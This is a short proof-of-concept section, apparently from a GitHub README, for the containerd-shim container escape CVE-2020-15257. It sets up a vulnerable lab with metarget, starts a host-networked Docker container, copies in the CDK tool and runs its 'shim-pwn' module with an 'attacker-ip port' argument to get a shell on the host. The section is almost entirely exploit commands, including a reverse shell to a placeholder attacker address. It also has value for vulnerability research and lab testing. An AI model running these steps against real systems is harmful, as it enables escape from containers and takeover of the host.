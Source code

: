 ## Proof of Concept

To perform the Proof of Concept, please follow the below steps:

1. Prepare the environment using the following command in metarget's folder<br />
`./metarget ./metarget cnv install cve-2020-15257`
2. Start the container using the following command <br />
 `sudo docker run -it --net=host --name=15257 ubuntu /bin/bash`
3. Pass the cdk executable file in the container /tmp directory and exec into it<br />
  `sudo docker cp cdk_linux_amd64 15257:/tmp` <br />
  `sudo docker exec -it 15257 bash`<br />
4. Run the tool and verify that the host shell is obtained<br />
`cd /tmp`<br />
`./cdk_linux_amd64 run shim-pwn attacker-ip port`<br />


